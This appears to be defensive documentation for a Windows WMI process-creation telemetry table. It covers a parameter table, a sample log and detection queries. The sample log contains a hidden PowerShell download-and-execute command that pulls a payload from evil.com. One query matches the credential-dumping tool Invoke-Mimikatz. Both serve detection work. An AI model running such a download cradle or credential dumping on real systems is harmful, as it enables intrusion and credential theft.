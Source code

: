 ## WmiCreateProcess Table: WMI Process Creation Event

### 1. Table Name
**WmiCreateProcess**

---

### 2. Table Usage
This event is generated when Windows Management Instrumentation (WMI) is used to start a new process. Since WMI is a default service that allows users to remotely manage machines and automate tasks, adversaries often abuse it to install tools, steal credentials, and move laterally within a network. Monitoring this event is useful for tracking an adversary's activity and identifying the origin of an attack during an intrusion.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| CommandLine | The command line used to create the new process. | Windows Only |
| ImageFileName | The full path to the main executable for the created process. | Windows Only |
| UserName | The user name associated with the process creation. | Windows Only |
| RpcClientProcessId | The Process ID (PID) of the RPC client that initiated the request. | Windows Only |
| AuthenticationId | The Logon ID for the token that created the process. Common values include SYSTEM (999) and NETWORK_SERVICE (996). | Windows Only |
| TokenType | The type of token associated with the process, such as a Primary (1) or Impersonation (2) token. | Windows Only |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Windows\\System32\\powershell.exe",
  "CommandLine": "powershell.exe -nop -w hidden -c \"IEX(New-Object Net.WebClient).DownloadString('[http://evil.com/payload.ps1](http://evil.com/payload.ps1)')\"",
  "UserName": "NT AUTHORITY\\SYSTEM",
  "RpcClientProcessId": "1234",
  "AuthenticationId": "999",
  "TokenType": "1"
}
```

### 5. Example Queries
```xql
// Find WMI process creation events involving PowerShell
event_simpleName=WmiCreateProcess ImageFileName="*\\powershell.exe"

// Search for specific commands executed via WMI, such as credential dumping tools
event_simpleName=WmiCreateProcess CommandLine="*Invoke-Mimikatz*"

// Find processes created via WMI by a specific user
event_simpleName=WmiCreateProcess UserName="*Admin*"

// Investigate WMI activity originating from a specific RPC client process ID
event_simpleName=WmiCreateProcess RpcClientProcessId="1234"
```
---
